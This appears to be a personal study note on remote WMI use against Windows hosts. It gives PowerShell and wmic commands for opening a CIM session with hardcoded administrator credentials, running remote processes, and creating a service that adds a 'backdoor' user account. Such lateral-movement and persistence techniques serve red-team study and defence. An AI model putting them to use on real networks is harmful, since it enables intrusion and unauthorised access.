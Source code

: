 [[Windows/Windows Internals/WMI]]
# Connecting to WMI on remote machine
### Protocols support
- **DCOM**: RPC over IP. Uses port 135/TCP and port 49152-65535/TCP.
- **Wsman**: Uses WinRM. uses port 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).
```powershell
# Create the PSCredential object to store the credntial
$username = "Administrator";
$password = "Password123";
$securepassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = [System.Management.Automation.PSCredential]::new($username,$securepassword);

# Configure Protocol to use
$opt = New-CimSessionOption -Protocol DCOM;

# Connect to the remote computer 
$session = New-CimSession -ComputerName <SERVER> -Credential $credential -SessionOption $opt -ErrorAction Stop;
```

# Remote Process Creation
- Required Group Membership : Administrators
### Powershell
```powershell
# Create a string storing the command to be executed
$command = "powershell.exe -Command Set-Content -Path C:\Temp\text.txt -Value Hello,World!";

Invoke-CimMethod -CimSession $session -Classname Win32_Process -MethodName create -Arguments @{
	CommandLine = $command;
} 
```
### CMD
```powershell
# For legacy system
wmic.exe /user:administrator /password:password123 /node:<server> process call create "cmd.exe /c calc.exe"
```
# Remote Service Creation
- Required Group Membership: Administrator
### Powershell
```powershell
# Create service
Invoke-CimMethod -CimSession $session -ClassName Win32_Service -MethodName create -Arguments @{
	Name = "MyService";
	DisplayName = "MyService";
	PathName = "net user backdoor password /add";
	ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
	StartMode = "Manual";
}

# Create a service object
$service = Get-CimInstance -CimSession $session -ClassName Win32_Service -filter "Name LIKE 'MyService'"

# Start the service
Invoke-CimMethod -InputObject $service -MethodName StartService
# Stop the service
Invoke-CimMethod -InputObject $service -MethodName StopService
# Delete Service
Invoke-CimMethod -InputObject $service -MethodName Delete

```